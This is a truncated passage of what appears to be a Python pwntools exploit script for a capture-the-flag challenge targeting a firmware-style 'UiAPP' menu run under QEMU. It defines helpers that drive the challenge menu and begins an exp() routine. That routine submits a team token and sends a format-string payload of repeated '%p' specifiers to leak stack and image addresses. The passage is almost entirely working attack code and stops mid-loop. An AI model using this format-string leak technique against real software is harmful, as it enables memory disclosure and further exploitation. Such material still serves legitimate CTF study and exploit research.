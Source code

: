 ```assembly
        "-net", "none",
        "-monitor", "/dev/null",
        "-nographic"
    ])


def new_visitor(_id: int, name, desc):
    p.sendafter(b">> ", b"1\r")
    p.sendafter(b"ID: ", str(_id).encode()+b"\r")
    p.sendafter(b"Name: ", name+b"\r")
    p.sendafter(b"Desc: ", desc+b"\r")


def edit(target, content):
    p.sendafter(b">> ", b"2\r")
    if target == 1 or target == "name":
        p.sendafter(b">> ", b"1\r")
        p.sendafter(b"Name: ", content+b"\r")
    if target == 2 or target == "desc":
        p.sendafter(b">> ", b"2\r")
        p.sendafter(b"Desc: ", content+b"\r")


def clear():
    p.sendafter(b">> ", b"3\r")


key_map = {
    "up":    b"\x1b[A",
    "down":  b"\x1b[B",
    "left":  b"\x1b[D",
    "right": b"\x1b[C",
    "esc":   b"\x1b^[",
    "enter": b"\r",
    "tab":   b"\t"
}


def send_key(_key: str, times: int = 1):
    for _ in range(times):
        p.send(key_map[_key])


def exp():
    # team token
    if do_proof:
        print("test_token:", test_token)
        p.sendlineafter(b"Input your team token:", test_token)

    # into 'UiAPP'
    p.recv(1)
    p.send(b'\x1b[24~'*20)

    # leak image_addr & stack_addr
    p.sendafter(b"Visitor): ", b"1\r")
    p.sendafter(b"Username: ",
                b"|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p\r")
    p.recvuntil(b"User [")
    for _ in range(5):
        p.recvuntil(b"|")
    stack_leak = int(p.recvuntil(b"|", drop=True).decode(), 16)
    print(hex(stack_leak))
    for _ in range(11):
```